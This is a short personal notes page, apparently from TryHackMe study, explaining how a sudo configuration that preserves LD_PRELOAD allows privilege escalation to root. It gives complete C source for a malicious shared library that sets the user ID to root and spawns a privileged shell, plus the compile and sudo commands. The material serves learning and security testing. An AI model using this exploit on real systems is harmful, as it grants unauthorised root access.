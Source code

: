 # Exploiting LD_PRELOAD

If LD_PRELOAD is preserved by sudo, then it’s possible to use a malicious dynamic library to gain root access — just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`. [Preserved environment variables are listed by `sudo -l`.](enumerate-sudo-access.md)

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles -o /path/to/malicious.so /path/to/malicious.c
```

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)

- - - -

👤 Nathan Acks  
📅 October 31, 2021
